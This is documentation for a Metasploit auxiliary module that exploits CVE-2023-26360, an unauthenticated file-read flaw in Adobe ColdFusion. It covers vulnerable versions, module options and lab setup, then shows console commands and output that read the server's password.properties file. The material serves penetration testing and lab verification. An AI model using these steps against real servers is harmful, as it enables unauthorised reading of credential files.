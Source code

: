 ## Vulnerable Application
This module leverages an unauthenticated arbitrary file read vulnerability due to deserialization of untrusted data
in Adobe ColdFusion. The vulnerability affects ColdFusion 2021 Update 5 and earlier as well as ColdFusion 2018 Update
15 and earlier. For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/1iRdvtUgtW/cve-2023-26359/rapid7-analysis).

## Options
To successfully read back the contents of an arbitrary file, you must set the modules `CFC_ENDPOINT` option to a valid
ColdFusion Component (CFC) endpoint on the target server. You must also set the `CFC_ENDPOINT` option to the name of a
remote method from that `CFC_ENDPOINT`. While the vulnerability is triggered regardless of remote method begin invoked,
in order for ColdFusion to emit the `TARGETFILE` contents in the HTTP response, the remote method invoked must return
a result. If the CFC_METHOD requires parameters, they can be provided via the `CFC_METHOD_PARAMETERS` option. By default
a CFC endpoint and method from the ColdFusion Administrator (CFIDE) are provided, which is accessible in many but not
all configurations.

## Testing
To setup a test environment, the following steps can be performed.
1. Setup a Windows Server 2022 VM.
2. Download the [ColdFusion 2021
Update 5](https://cfdownload.adobe.com/pub/adobe/coldfusion/2021/cfinstaller/cf2021u5/ColdFusion_2021_GUI_WWEJ_win64.exe)
installer and install it.
3. Configure the ColdFusion server for production use and enable the Secure Profile during setup.
4. If the default CFIDE endpoints are not accessible (e.g. The server is configured with a Secure profile), install a 
web application on top of ColdFusion in order to expose CFC endpoints. Alternatively, create a test CFC endpoint
called `testing.cfc` in the `wwwroot` folder with the following contents:
```
component testing {
	
	remote String function foo()  { 

		return "Hello from foo";
	}
}
```
5. Follow the verification steps below.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/adobe_coldfusion_fileread_cve_2023_26360`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set CFC_ENDPOINT /testing.cfc`
5. `set CFC_METHOD foo`
6. Optionally `set CFC_METHOD_PARAMETERS param1=foo, param2=bar` if the CFC_METHOD requires parameters.
7. `set TARGETFILE ../lib/password.properties`
8. `set STORE_LOOT false` if you want to display file on the console instead of storing it as loot.
9. `run`

## Scenarios
### Adobe ColdFusion 2021 Update 5 on Windows Server 2022
```
msf6 auxiliary(gather/adobe_coldfusion_fileread_cve_2023_26360) > show options

Module options (auxiliary/gather/adobe_coldfusion_fileread_cve_2023_26360):

   Name                   Current Setting             Required  Description
   ----                   ---------------             --------  -----------
   CFC_ENDPOINT           /testing.cfc                yes       The target ColdFusion Component (CFC) endpoint
   CFC_METHOD             foo                         yes       The target ColdFusion Component (CFC) remote method name
   CFC_METHOD_PARAMETERS                              no        The target ColdFusion Component (CFC) remote method parameters
                                                                 (e.g. "param1=foo, param2=bar")
   Proxies                                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                 172.23.13.12                yes       The target host(s), see https://docs.metasploit.com/docs/using
                                                                -metasploit/basics/using-metasploit.html
   RPORT                  8500                        yes       The target port (TCP)
   SSL                    false                       no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT             false                       no        Store the target file as loot
   TARGETFILE             ../lib/password.properties  yes       The target file to read, relative to the wwwroot folder.
   VHOST                                              no        HTTP server virtual host

msf6 auxiliary(gather/adobe_coldfusion_fileread_cve_2023_26360) > run
[*] Running module against 172.23.13.12

[*] #Tue Mar 28 01:33:23 PDT 2023
password=30160D97731079B7ACCF7BCFAD049FCCCA3F855318037AC09DC00FFD52A29F5C
rdspassword=
encrypted=true

[*] Auxiliary module execution completed
msf6 auxiliary(gather/adobe_coldfusion_fileread_cve_2023_26360) > 
```
